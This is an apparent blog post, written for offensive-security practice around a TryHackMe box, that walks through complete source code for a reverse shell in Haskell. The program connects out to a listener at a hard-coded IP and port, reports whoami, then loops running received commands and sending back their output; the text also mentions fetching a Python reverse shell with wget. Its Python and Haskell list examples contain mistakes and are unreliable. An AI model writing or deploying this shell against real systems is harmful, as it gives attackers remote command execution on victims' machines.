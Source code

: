 ```yaml
---
layout: page
title: "Writing A Reverse Shell In Haskell"
permalink: /Writing-A-Reverse-Shell-In-Haskell/
categories: haskell
---
```


While I was developing a vulnerable box for the TryHackMe teaching platform, I wrote a small Flask app that accepts a Haskell file upload and compiles/runs it. This was intended to be abused by attackers in order to get an initial foothold through running a Haskell program and then escalate to root. Like any good box maker I had to test it and make sure it was solvable. My initial solution to the foothold was a short Haskell program that uses the System.Process library in order to call system functions. Since redirection was really janky I couldn’t do a lot of things, so my workaround was to wget a Python reverse shell and then run it. This worked, but I thought “Surely someone has written a reverse shell in this language”. Much to my surprise, Google turned up empty. Original thought isn’t dead!

I attribute this to a few things: Haskell is a somewhat niche language, it’s not very easy to pick up, and it’s pretty limited in its applications for offensive security. Ironically, Haskell is an incredibly safe language because of all the type checking, lack of side effects, and how easy it makes proving functions! Anyways, I figured that since no one had done it before, I ought to write a reverse shell. I’m currently completing my OSCP and have been using PayloadAllTheThings like a zealot, so this seems like my chance to give back in a very niche fashion if for some reason someone needs a Haskell reverse shell.

# A Brief Introduction To Haskell (Skip this if you just wanna see the shellz)
Here’s a few cool things about Haskell:

* Haskell is statically typed, so if we assign a variable to an integer the compiler knows it’s going to stay an integer
* Functions have no side effects. The only thing that a function can do is compute something and return its value.
* Haskell is lazy. This means it won’t compute values until we actually ask for them. This comes in handy if we, say, want to work with an infinitely long list. We can declare an infinitely long list, and if we try to access list indexes very far into the list, Haskell won’t compute that until we ask for it.
* Haskell is super concise. It’s very easy to write very short, incredibly powerful one liners

Here’s a brief comparison between Haskell and Python, as many people have experience with Python. The problem will be to reverse a list and return a list containing the new first and last index. For example, if the input is [1,2,3,4], the output is [4,1]. We’ll assume “x” is our variable equal to the input.

Python: 

~~~python
x.reverse[0].append(x.reverse[-1])
~~~
If you’re familiar with List objects in Python, you know that what we’re doing behind the scenes is accessing the reverse, getitem (to access the index), and append methods of the List class in order to perform this operation.

Haskell:

'''haskell
(head (reverse x)):(tail (reverse x)):[]
'''
In Haskell, we’re calling the head function to get the first item, the reverse function to give us a reversed list, the tail function to get the last item, and then appending it using the “:” list constructor onto an empty list. We did all of this just with functions, how cool is that!

Additionally, we could tell Haskell what we want to input/output from our function. So in this case, we’re inputting a list of integers and returning a list of integers. So we could tell Haskell:
'''haskell
funcName :: [Int] -> [Int]
'''
If we try to pass in a string or a list of strings, then Haskell will throw an error at compilation. This can also be abstracted, so if we wanted to take a list of something and return a single something we could declare:
'''haskell
funcName :: [a] -> a
'''
Where “a” is our generic data type. Contrast this to Python, where we can take the example above and nothing prevents us from passing in a number. But when the function tries to run, it’ll try to call the reverse method of the Integer class, which will fail because there isn’t one. With Haskell, we know what we’re getting.

This is just a short description of Haskell, it’s an incredibly powerful language and I suggest that you dig deeper into it.

# Writing Our Reverse Shell
Anyways, now that you’ve had a brief introduction to how Haskell works, let’s get into the reverse shell. We’ll dissect it a few lines at a time.

'''haskell
import Network.Socket hiding (send, sendTo, recv, recvFrom)
import Network.Socket.ByteString (send, recv)
import qualified Data.ByteString.Char8 as B8
import System.Process
import System.IO
import Control.Exception

main = do
        client "192.168.126.128" 1234
'''

Pretty self explanatory. This is just our imports and our main function call, similar to Java/C/etc.

'''haskell
client :: String -> Int -> IO ()
client host port = withSocketsDo $ do
                addrInfo <- getAddrInfo Nothing (Just host) (Just $ show port)
                let serverAddr = head addrInfo
'''

This is the start function that we call in main. I’ve pulled a short snippet because I want to address a few Haskell syntax things.

First, at a high level, what we’re doing here is constructing the addrInfo data type that we need to grab information from to pass to a later function.

Why do some lines have a <- and some have a “let x = y”? The <- operator is used for IO actions in this case. Essentially, it will actually perform the IO operation and then bind it to the variable, performing a monadic binding and let us work with that variable differently. The “let =” operator binds whatever the value is to a variable literally.

The $ operator is used for function application. For (Just $ show port), “Just” is a data type that lets us say “The result of this function MAY BE this, but it also MAY BE Nothing”. The “show” function takes a value and outputs that value as a string. If we had “(Just show port)”, then that could be interpreted as us trying to declare “show” as a variable of the “Maybe” type (of which Just is a subtype). But that’s not what we want, we want to apply Just to the result of “show port”.

'''haskell
sock <- socket (addrFamily serverAddr) Stream defaultProtocol
connect sock (addrAddress serverAddr)
(_, Just hout, _, _) <- createProcess (proc "whoami" []) {std_out = CreatePipe}
resultOut <- hGetContents hout
let resultMsg = B8.pack resultOut
send sock resultMsg
msgSender sock
close sock
'''

Now the rest of this function. We’ll pass in the first item of our addrInfo data type, serverAddr, cast as an addrFamily data type. Haskell will detect the protocol used for us, in this case TCP. This creates the socket that we’re going to pass around for the rest of this program. Then, we’ll call the connect function and pass in the socket and server address.

Next is the meat and potatoes of the command execution, we call createProcess and pass in “whoami” as our process, creating a pipe for standard out. I used whoami as it works on both Linux and Windows. If you’re curious about the underscores in (_, Just hout, _, _) those essentially mean that we don’t care what they are because we’re not going to use them, so we don’t need to assign them to a variable. If we wanted to use them all they would be stdin, stdout, stderr, and a handle to the process (in that order). Then we can get the results of our command using the IO operation hGetContents and use ByteString to pack them into a network friendly form. Then we’ll send the result of that command, so the user on the receiving end knows who they are, and call the function that’s going to do the heavy lifting.

'''haskell
msgSender :: Socket -> IO ()
msgSender sock = do
  let msg = B8.pack ""
  send sock msg
  rMsg <- recv sock 2048
  let split_cmd = words (filter (/= '\n') (B8.unpack rMsg))
  print split_cmd
  result <- try' $ createProcess (proc (head split_cmd) (tail split_cmd)) {std_out = CreatePipe, std_err = CreatePipe}
  case result of 
    Left ex                            -> sendError sock ex
    Right (_, Just hout, Just herr, _) -> sendResult sock (Nothing, Just hout, Just herr, Nothing)
  msgSender sock
'''

If you’ve made it this far, I promise that we’re almost done with all the convoluted Haskell stuff! This function is going to infinitely loop in order to call commands, return their output, and then wait again. The program receives a message from the user, removes all new lines via filter, and uses the words function to create a list split on every space. We have to do this as createProcess takes a list of arguments to the command. Then, we’ll run our program the same as before, but this time we’ll also create an std_err pipe as we want to know when things go wrong. You’ll also notice the “try’” function call with the $ function applicator. 

'''haskell
try' :: IO a -> IO (Either IOException a)
try' = try
'''

Adding an apostrophe to a function name is the standard way to denote a modified version of an existing function in Haskell. This takes the existing try function, but specifies it so that it takes a generic IO type in and returns an “Either” data type, which allows us to handle exceptions. This is necessary because while a command returning an error isn’t a problem, if we try to run a non-existent command then the shell would just crash.

We can then use a case statement for error handling.In other languages this would be a switch statement or a series of if statements. Our try function will return “Left” if the command had an exception, and “Right” if it succeeded. So if it fails, we’ll send the error message back to the user. If it didn’t fail, we’ll send back the output and any error messages that were a product of the command. Then we call the function again and loop back. 

'''haskell
sendError sock err = do
  let errorMsg = B8.pack ("Error:" ++ show err ++ "\n")
  send sock errorMsg
  
sendResult sock (_, Just hout, Just herr, _) = do
    resultOut <- hGetContents hout
    errorOut <- hGetContents herr
    let resultMsg = B8.pack resultOut
    let errorMsg = B8.pack errorOut
    send sock resultMsg
    send sock errorMsg
'''

The last component are the functions that will send a system error back to the user if the command causes an exception, and the function that sends back the results of the command. These are pretty self explanatory.

And that’s how you implement a reverse shell in Haskell! Hopefully you learned something new from this post. If you’ve never used a functional programming language before, I highly recommend that you do a bit of reading on them. Personally I wasn’t super fluent with Python’s Lambda functions or list comprehensions, but after learning some Haskell I have no problem writing them on the fly. There’s no feeling of power quite like writing a 500 character one liner to process a data set that would’ve taken 20 characters in Excel.
